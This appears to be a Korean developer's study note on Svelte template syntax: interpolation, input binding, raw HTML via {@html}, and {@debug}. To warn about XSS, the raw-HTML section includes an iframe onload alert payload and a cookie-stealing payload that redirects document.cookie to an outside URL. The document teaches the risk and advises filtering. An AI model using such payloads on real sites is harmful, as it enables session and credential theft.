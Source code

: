 ﻿## 보간법

### 내용/속성/표현식 보간

보간법은 쉽게 말해 `svelte` 파일의 `html` 구조에서 변수 데이터를 쓰는 방식을 의미한다.
`{name}` 이라고 적으면 `name` 변수를 html에 보간할 수 있다고해서 보간법이라고 부른다.

```html
<script>
  let href = "https://github.com/wonieeVicky";
  let name = "Vicky";
  let value = "New input value!";
  let isUpperCase = false;
</script>

<!-- <a href="https://github.com/wonieeVicky">Vicky</a> -->
<a {href}>{name}</a>

<!-- <input type="text" value="Default value.." /> -->
<!-- input 단방향 -->
<input {value} on:input={(e) => (value = e.target.value)} />
<!-- input 양방향 -->
<!-- <input bind:value={value} /> -->
<input bind:value />

<!-- 보간법에서는 표현식도 직접 적어넣을 수 있다. 권장되는 방법 -->
<div>{isUpperCase ? "DIV" : "div"}</div>
```

단방향/양방향 이벤트 바인딩에 따라 데이터 처리 방법이 바뀌므로 참고하자!
리액트에서와 마찬가지로 보간법을 사용해 표현식도 추가해서 넣을 수 있는데 스벨트에서는 별도의 코드 번들링을 처리하지 않고 그대로 파싱해넣으므로, 권장되는 방법 중에 하나이다.

### 원시 HTML, 데이터 디버깅

이번에는 svelte의 원시 html 작성 방법에 대해 살펴본다.
쉽게 말해 어떤 변수가 파싱되어야하는 html 값일 경우를 의미한다.

`App.svelte`

```html
<script>
  let h1 = "<h1>Hello Vicky!</h1>";
</script>

<!-- <h1>Hello Vicky!</h1> 그대로 출력 -->
{h1}
<!-- Hello Vicky! 로 파싱되어 출력 -->
{@html h1}
```

![](../img/220621-1.png)

위 코드는 아래와 같은 결과를 도출한다. 즉, html을 파싱하여 돔에 그리고 싶을 경우 `{@html}` 키워드를 앞에 적어넣으면 됨. 그런데 주의해야할 점도 있다.

```html
<script>
  let h1 = "<h1>Hello Vicky!</h1>";
  let xss = "<iframe onload='alert(1)'></iframe>";
</script>

{@html h1} {@html xss}
```

위처럼 xss 라는 변수에 ifame html을 넣어 파싱하면 정상적으로 alert(1)이 실행된다. XSS(Cross Site scription, 사이트 간 스크립팅)은 웹 취약점 중 하나로 위와 같은 로직을 통해 웹 사이트 관리자가 아닌 제 3자가 웹에 악성 스크립트를 삽입할 수 있음을 의미하기도 한다. 이는 치명적인 공격이 될 수도 있다.

아래 예시를 보자

```html
<script>
  let xss = "<iframe onload='document.location=`https://github.com/wonieeVicky?${document.cookie}`'></iframe>";
</script>

{@html xss}
```

위와 같은 코드 작성 후 localhost:8080에 현재 페이지에 쿠키를 삽입해준다.

```jsx
document.cookie = "token=L1k23lanfvs12";
```

위와 같이 cookie를 저장하면 애플리케이션 내 쿠키값에 해당값이 저장된 것을 확인할 수 있다.

![](../img/220621-2.png)

이후 위 코드를 실행해보면, 자동으로 [github.com/wonieeVicky로](http://github.com/wonieeVicky)로 이동되며, 파라미터 뒤에 토큰값이 그대로 넘어가게 된 것을 확인할 수 있다.

![](../img/220621-3.png)

따라서 iframe 등을 통해 웹 취약점을 공격하여 개인정보가 유출될 수도 있는 것이다. 즉 결론적으로 @html 키워드를 사용해 html을 넣으려고 할 때는 기본적으로 제 3자의 소스를 사용하기 전에 주의가 요구된다. 상황에 따라서는 xss에 대한 기본적인 보안 필터링을 거친 뒤 사용하는 것이 좋다.

이번에는 디버그에 대한 키워드에 대해 알아본다.

`App.svelte`

아래와 같은 코드를 실행했을 때 index나 name 값 변경에 대한 로깅은 어떻게 할 수 있을까?
기존에는 console.log를 넣어 데이터 변화를 감지했다.

```html
<script>
  let name = "Vicky";
  let index = 0;
</script>

<h1 on:click={() => { index++; console.log(index, name); }>Hello {name}!</h1>

```

하지만 스벨트에서는 `{@debug}`라는 디버그 API를 제공한다.

```html
<script>
  let name = "Vicky";
  let index = 0;
</script>

{@debug index, name}
<h1 on:click={() => index++}>Hello {name}!</h1>
```

![](../img/220621-4.png)

위와 같은 코드를 넣은 뒤 개발자 창을 열어두고 새로고침하면 debug 기능이 활성화되면서 데이터 변경에 대한 정보를 확인할 수 있다. 개발자 창을 닫은 뒤 새로고침하면 따로 화면이 멈추지는 않고, 콘솔에 변경 데이터에 대한 기록만 남는다. 필요에 따라 그에 맞게 디버그 API를 활용하면 좋을 것 같다.
